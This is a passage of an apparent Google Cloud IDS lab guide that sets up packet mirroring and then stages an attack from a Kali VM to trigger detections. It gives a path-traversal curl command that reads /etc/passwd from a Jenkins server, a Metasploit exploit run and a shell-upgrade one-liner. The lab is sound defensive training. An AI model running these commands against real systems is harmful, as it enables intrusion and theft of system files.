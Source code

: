 ```
If your endpoint shows the "cycling" icon, please wait until the endpoint finishes creating.
```

1. A packet mirroring policy needs to be attached to the endpoint to mirror packets to Cloud IDS.  Click **Endpoints → ATTACH**

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image15.png "image_tooltip")

4. Create the packet mirroring policy as follows.

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image16.png "image_tooltip")

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image17.png "image_tooltip")

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image18.png "image_tooltip")


### Launch East-West Threat

1. Log into the attacker VM from the previous section of the lab.

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image19.png "image_tooltip")

```
Password: kali
```

1. Run the command to pull the passwords file from the jenkins server. 

```
curl http://192.168.11.2/cgi-bin/../../../..//bin/cat%20/etc/passwd
```

(Output)

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image20.png "image_tooltip")





1. Run the following command to run a full exploit against the jenkins server. 

```
msfconsole -r jenkins.rc
```

(Output)

![alt_text](https://raw.githubusercontent.com/wwce/gcp-tf-cloud-ids-lab/0ae6302a0f7a146c596223589339312dc7690618/images/image21.png "image_tooltip")

```
If the exploit fails, please reboot the Jenkins server (Compute Engine → VM Instances) and retry the exploit.
```

1. Enter the command to access the shell of Jenkins server:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
